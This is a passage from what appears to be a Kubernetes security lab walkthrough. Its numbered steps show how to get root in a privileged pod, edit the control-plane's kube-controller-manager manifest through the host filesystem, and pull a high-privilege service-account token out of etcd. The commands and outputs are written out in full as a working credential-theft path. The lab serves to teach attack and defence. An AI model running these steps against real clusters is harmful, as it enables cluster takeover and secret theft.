    ```shell
   nonroot-priv                1/1     Running   0          4m36s   10.244.82.7      kind-control-plane   <none>           <none>
   webadmin-79d5c46849-tm5ht   1/1     Running   0          48m     10.244.162.133   kind-worker          <none>           <none>
   ```

9. With our pod running on the `kind-control-plane` node, exec into it, become root and edit the `/chroot/etc/
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.

   snyky@nonroot-priv:/$ sudo su -
   root@nonroot-priv:~# vim /chroot/etc/kubernetes/manifests/kube-
   kube-apiserver.yaml           kube-controller-manager.yaml  kube-scheduler.yaml
   root@nonroot-priv:~# vim /chroot/etc/kubernetes/manifests/kube-controller-manager.yaml
   ```
   In that file, in the `spec.containers.command` list, add `- --feature-gates=LegacyServiceAccountTokenNoAutoGeneration=false` and make sure it's indented correctly.
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
   creationTimestamp: null
   labels:
      component: kube-controller-manager
      tier: control-plane
   name: kube-controller-manager
   namespace: kube-system
   spec:
   containers:
   - command:
      - kube-controller-manager
      - --feature-gates=LegacyServiceAccountTokenNoAutoGeneration=false
      - --allocate-node-cidrs=true
      - --authentication-kubeconfig=/etc/kubernetes/controller-manager.conf
   ...
   ```
   Save the file, exit the `nonroot-priv` pod exec and re-run the `etcdctl get` command from step 7. You may not see a difference for a minute or so, but eventually a long list of secrets should appear, incliuding our target: `/registry/secrets/kube-system/clusterrole-aggregation-controller-token-...`

10. Now let's get the contents of the secret name containing `clusterrole-aggregation-controller-token`.
   `kubectl exec etcdclient -- /usr/local/bin/etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-fjkn5`
   _(replace the last part of that string as it appears for your output)_

   A lot of data is going to come back from that query but the last very long line which starts with `token�` is what we
   want. Copy everything after that field name (don't grab the unprintable character on the end of `token�`) all of the
   way through, **but not including** the `#kubernetes.io/service-account-token` part the end.
   